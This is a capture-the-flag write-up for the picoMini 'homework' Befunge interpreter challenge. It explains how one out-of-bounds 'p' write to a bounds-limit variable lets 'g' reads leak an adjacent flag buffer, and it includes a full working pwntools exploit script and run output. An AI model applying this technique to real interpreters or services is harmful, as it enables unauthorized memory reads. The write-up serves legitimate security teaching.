

<h1 align="center">📝 homework</h1>
<p align="center">
  <b>picoMini by redpwn (2021) Binary Exploitation Write-Up</b>
</p>
<p align="center">
  
  
  
  
</p>
<p align="center">
  A Befunge-93 Interpreter, One Weak Bounds Check, and an Off-the-Board Read of the Flag
</p>

---

# 📋 Environment

| Item       | Value                                                              |
| ---------- | ----------------------------------------------------------------- |
| Event      | picoMini by redpwn 2021 (run on CyLab Security Academy)            |
| Category   | Binary Exploitation                                               |
| Difficulty | Hard                                                             |
| Author     | tpa                                                              |
| Handout    | `homework` (64-bit ELF, PIE, Partial RELRO, NX)                   |
| Task       | Make a toy Befunge interpreter print a flag it never means to     |
| Tools Used | `pwntools`, `objdump`, `readelf`                                 |

---

# 🗺️ Overview

> `homework` is a tiny [Befunge-93](https://en.wikipedia.org/wiki/Befunge) interpreter. It reads `flag.txt` into a global buffer, then lets us fill a `50 x 22` character grid (the "board") with up to four lines of our own Befunge program and runs it. The language moves an instruction pointer around the grid and pushes, pops, and prints values on a stack, including two opcodes that read and write arbitrary board cells: `g` (get) and `p` (put). Those two opcodes are the only path off the board, and their bounds check is the bug. They index `board + 0x16*row + col` and compare `row` against `rows` (50) and `col` against `cols` (22), but `rows`, `cols`, and the flag all live in memory immediately after the board. Because the index can reach a few bytes past the grid, a single `p` can overwrite `cols` with a large value, which unlocks `g` reads deep past the board and straight into the flag. The whole solve is one careful Befunge program; there is no ROP, no leak, and nothing to defeat about PIE or NX.

Steps:
* Read `homework`, find the board and the globals packed right behind it
* Confirm `g`/`p` index `board + 0x16*row + col` and only check `row < 50`, `col < cols`
* Note that `cols` sits at `board + 1104`, reachable as `row = 50, col = 4`
* Write a Befunge program that `put`s a large value into `cols`
* Loop `get` across the now-reachable cells and print the flag one character at a time

---

# 📑 Table of Contents

1. [The Binary and the Board](#the-binary-and-the-board)
2. [The Befunge Interpreter](#the-befunge-interpreter)
3. [The Bounds Check and What Sits Behind the Board](#the-bounds-check-and-what-sits-behind-the-board)
4. [Overwriting cols to Break Out](#overwriting-cols-to-break-out)
5. [Printing the Flag](#printing-the-flag)
6. [The Exploit](#the-exploit)
7. [Flag](#-flag)
8. [Solution Summary](#solution-summary)
9. [Lessons and Takeaways](#lessons-and-takeaways)

---

# The Binary and the Board

`checksec` is almost beside the point here, because the solve never touches a return address or a pointer. The weakness is entirely in the interpreter's logic:

```text
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```

The binary is not stripped, so the globals name themselves. Reading the symbol table shows the exact memory layout, and it is the crux of the whole challenge:

```text
0x50c0   stack   (400 bytes)      the Befunge value stack
0x5260   board   (1100 bytes)     the 50 x 22 program grid
0x56ac   rows    (4 bytes)        = 50
0x56b0   cols    (4 bytes)        = 22
0x56b4   diry, pcx, pcy, ...      interpreter state
0x56e0   flag    (100 bytes)      flag.txt is read in here
```

`board` is `50 * 22 = 1100` bytes, and `rows`, `cols`, and finally `flag` are laid out directly behind it. `main` reads the flag into that trailing buffer with `scanf`, fills the board from our input, then calls `step` in a loop until the program halts.

Input comes in up to four lines. Each board row is 22 columns wide, but `main` reads at most 22 bytes per line and replaces the last byte with a null terminator, so each line carries at most 21 usable instructions, and four lines give us 84 instructions to work with.

> **In plain terms:** the program hands us a small grid to write a toy program into, and it keeps its own settings and the flag in memory right after that grid. Everything that follows is about reaching across that short gap.

---

# The Befunge Interpreter

`step` is one large switch over the current cell's byte. Each opcode is a single ASCII character. The ones that matter for the solve:

```text
0-9   push that digit onto the stack           (default case; '0' pushes 0)
:     duplicate the top of the stack
+     pop a, b ; push b + a
!     logical not (0 -> 1, nonzero -> 0)
\     swap the top two stack values
< > ^ v   set the instruction pointer direction (left, right, up, down)
,     pop a value and print it as an ASCII character
g     pop row, pop col ; push board[row][col]
p     pop row, pop col, pop value ; board[row][col] = value
@     halt
```

The instruction pointer starts at the top-left cell moving right, wraps within a row using modulo, and changes direction whenever it hits `<`, `>`, `^`, or `v`. That wrapping and the direction opcodes are what let a 21-byte row behave like a small loop.

The two opcodes that reach memory are `g` and `p`. Both compute the same address:

```c
addr = board + 0x16 * row + col;     // 0x16 = 22 = one row stride
```

`g` reads a byte there and pushes it; `p` writes the low byte of a value there.

> **In plain terms:** we are writing a program in a stack language stenciled onto a grid. Two of its instructions can read and write grid cells by `(row, col)`, and that address math is the door we are going to push on.

---

# The Bounds Check and What Sits Behind the Board

Both `g` and `p` guard the index before touching memory:

```c
if (row > rows || col > cols)      // rows = 50, cols = 22
    return;                        // refuse and halt
addr = board + 0x16 * row + col;
```

The check uses `rows` and `cols`, which are themselves just two integers sitting at `board + 1100` and `board + 1104`. Two things make this exploitable.

First, the largest in-bounds index is `0x16 * 50 + 22 = 1122`, which is already 22 bytes past the end of the 1100-byte board. That overshoot is enough to reach `rows` (at `+1100`) and `cols` (at `+1104`).

Second, `cols` is one of the two values the check relies on. If we can write a big number into `cols`, every later `col < cols` comparison passes for a much wider range, and `g` can read far past the board.

Working out the target cell for `cols`: it lives at `board + 1104`, and `1104 = 0x16 * 50 + 4`, so it is exactly `row = 50, col = 4`.

Working out where the flag is: `flag` is at `0x56e0` and `board` at `0x5260`, a gap of `0x480 = 1152` bytes. At `row = 50` the base is `board + 1100`, so the flag begins at `col = 1152 - 1100 = 52` and its last byte lands near `col = 155`. To read the whole flag we need `cols` to be at least 156; a round 200 is comfortable.

> **In plain terms:** the gatekeeper for "are we still on the board?" is itself a value sitting just off the board, and we can reach it. Bump it up, and the gate swings open wide enough to read the flag that is parked a little further along.

---

# Overwriting cols to Break Out

The plan is three short rows of setup followed by one row that prints. The first job is to get the number 50 onto the stack, since `row = 50` is what every off-board access needs.

Befunge has no "push 50" instruction, so it is built from doubling and adding. Push 2, then repeatedly duplicate and add to reach 10, then again to reach 50:

```text
row 1:  0 ! : +         push 2            (push 0, not -> 1, dup, add -> 2)
        : : : : + + + +  2 -> 10          (dup four times, add four times)
        : : : : + + + +  10 -> 50
        v                move down
```

The next two rows store 50 in a scratch cell, build 200 from it, and `put` 200 into `cols`. A cell on the board is used as scratch so the 50 can be fetched back cleanly whenever it is needed:

```text
row 2 (runs right to left):  stash 50 at board[0][0], rebuild 50,
                             turn it into 200, leave (200, 50, 2) on the stack
row 3 (runs left to right):  make 4 from the 2, swap, then  p  writes 200
                             into (row 50, col 4) = cols, then coast to row 4
```

After row 3 runs, `cols` holds 200. From here `g` will happily read any `col` up to 199 at `row = 50`, which covers the entire flag.

> **In plain terms:** we teach the little stack machine to count to 200 out of nothing, then drop that 200 onto the one setting that decides how far right we are allowed to read. That single write is the exploit; the rest is just reading.

---

# Printing the Flag

The last row is a loop. It keeps a running `col` counter on the stack, fetches `board[50][col]` with `g`, prints it with `,`, increments `col`, and repeats. Direction opcodes make the short row wrap back on itself so the handful of real instructions run over and over:

```text
row 4 (runs right to left):
    dup col                     keep the counter
    fetch 50 from board[0][0]   the stashed row number
    g                           push board[50][col]
    ,                           print it as a character
    0 ! +                       col = col + 1
    <<<<<<<<<<<                 wrap to the start of the row (loop)
```

The read starts at `col = 0`, so the first bytes printed are the `rows`, `cols`, and interpreter-state values that sit between the board and the flag, which show up as a little leading garbage. Once `col` reaches 52 the flag characters stream out, and the real flag is simply the `picoCTF{...}` substring in the output.

> **In plain terms:** now that the fence is gone, the final row is a tight print loop that walks off the edge of the board and reads straight through to the flag, one character at a time.

---

# The Exploit

Each line is the raw bytes of one board row. Two of the rows are written in reverse because they are meant to execute right to left, so reversing the source makes them read naturally in the file.

```python
#!/usr/bin/env python3
import sys, re
from pwn import *

context.arch = 'amd64'           # remote needs no binary; only local test opens ./homework
context.log_level = 'info'

def conn():
    if len(sys.argv) >= 3:
        return remote(sys.argv[1], int(sys.argv[2]))
    return process('./homework')

# row 1: build 50 on the stack, then go down
line1 = b'\x30\x21\x3a\x2b' + b'\x3a\x3a\x3a\x3a\x2b\x2b\x2b\x2b' + b'\x3a\x3a\x3a\x3a\x2b\x2b\x2b\x2b' + b'\x76'
# row 2 (executed right-to-left): stash 50 at (0,0), build 200, leave (200,50,2)
line2 = b'\x3c\x30\x30\x70\x30\x30\x67\x3a\x3a\x3a\x2b\x2b\x2b\x30\x30\x67\x30\x21\x3a\x2b\x76'[::-1]
# row 3: make 4, swap, p 200 -> cols (row50,col4); push 0; coast right; go down
line3 = b'\x3e\x3a\x2b\x5c\x70\x30' + b'\x3e'*14 + b'\x76'
# row 4 (executed right-to-left): loop  g(col,50) -> output char -> col++
line4 = (b'\x3c\x3a\x30\x30\x67\x67\x2c' + b'\x30\x21\x2b' + b'\x3c'*11)[::-1]

r = conn()
for ln in (line1, line2, line3, line4):
    r.sendline(ln)
data = r.recvall(timeout=5)
m = re.search(rb'picoCTF\{[^}]*\}', data)
if m:
    log.success('FLAG: %s' % m.group().decode())
    print(m.group().decode())
else:
    log.failure('no flag; tail=%r' % data[-120:])
r.close()
```

Run it against the server:

```text
$ python3 solve.py mars.cylabacademy.net 31689
[+] Opening connection to mars.cylabacademy.net on port 31689: Done
[+] Receiving all data: Done (310B)
[+] FLAG: picoCTF{good_job_full_score_X7OIj4HI903RG2YO}
```

No binary needs to be present for a remote run, since the exploit is pure interpreter input; the `./homework` fallback is only there for a local test with a planted `flag.txt`.

---

# 🚩 Flag

```text
picoCTF{good_job_full_score_X7OIj4HI903RG2YO}
```

---

# Solution Summary



---

# Lessons and Takeaways

* **A bounds check is only as strong as the variable it trusts.** `g` and `p` guard against `col < cols`, but `cols` is a plain integer sitting four bytes past the board and is itself writable through the very opcode it is meant to limit. Overwrite the limit and the check becomes a formality.
* **Adjacency is the whole bug.** The board, `rows`, `cols`, and the flag are packed back to back, and the index math reaches 22 bytes past the grid, which is just far enough to touch `cols`. Data layout alone turned a toy language into an arbitrary-ish read.
* **No memory corruption primitive was needed.** PIE, NX, and the rest never came up. The flag was read entirely inside the interpreter's own rules by abusing its address arithmetic, which is a reminder that logic bugs can be cleaner wins than stack or heap corruption.
* **Build constants from nothing.** Befunge cannot push 50 or 200 directly, so they are assembled with duplicate and add, and a spare board cell is used to stash and refetch the row number. Knowing the instruction set well enough to synthesize values is half the work in these grid-language challenges.
* **Mind the output, not just the exploit.** The read starts before the flag, so the first bytes are interpreter state that looks like noise. Grepping the output for `picoCTF{...}` rather than trusting the stream to start clean is what turns a working read into a captured flag.

---

Written by **TheDingo8MyBaby**
picoMini by redpwn 2021 • homework • flag: picoCTF{good_job_full_score_X7OIj4HI903RG2YO}
